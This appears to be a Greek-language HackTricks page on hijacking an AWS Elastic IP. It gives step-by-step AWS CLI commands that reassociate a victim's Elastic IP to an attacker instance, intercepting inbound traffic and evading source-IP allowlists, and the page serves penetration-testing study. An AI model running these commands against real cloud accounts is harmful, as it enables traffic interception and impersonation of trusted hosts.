 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Περίληψη

Καταχραστείτε `ec2:AssociateAddress` (και προαιρετικά `ec2:DisassociateAddress`) για να επανασυνδέσετε ένα Elastic IP (EIP) από ένα victim instance/ENI σε ένα attacker instance/ENI. Αυτό αναδρομολογεί την εισερχόμενη κίνηση που προορίζεται για το EIP προς τον attacker και επίσης επιτρέπει στον attacker να ξεκινήσει εξερχόμενη κίνηση με τη allowlisted δημόσια IP, παρακάμπτοντας εξωτερικά partner firewalls.

## Προαπαιτούμενα
- Target EIP allocation ID στο ίδιο account/VPC.
- Attacker instance/ENI που ελέγχετε.
- Δικαιώματα:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` στο EIP allocation-id και στο attacker instance/ENI
- `ec2:DisassociateAddress` (προαιρετικό). Σημείωση: `--allow-reassociation` θα αποσυνδέσει αυτόματα την προηγούμενη σύνδεση.

## Επίθεση

Μεταβλητές
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Εκχωρήστε ή εντοπίστε το EIP του θύματος (το lab εκχωρεί ένα καινούριο και το επισυνάπτει στο θύμα)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Επιβεβαιώστε ότι το EIP αυτή τη στιγμή επιλύεται στην υπηρεσία του θύματος (π.χ. έλεγχος για banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Επανασυνδέστε το EIP στον επιτιθέμενο (αποσυνδέεται αυτόματα από το θύμα)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Επαληθεύστε ότι το EIP πλέον επιλύεται στην attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Απόδειξη (μεταφερθείσα συσχέτιση):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Επιπτώσεις
- Inbound impersonation: Όλη η κίνηση προς το hijacked EIP παραδίδεται στο attacker instance/ENI.
- Outbound impersonation: Ο attacker μπορεί να ξεκινήσει κίνηση που φαίνεται να προέρχεται από το allowlisted public IP (χρήσιμο για την παράκαμψη φίλτρων partner/external source IP).

{{#include ../../../../banners/hacktricks-training.md}}
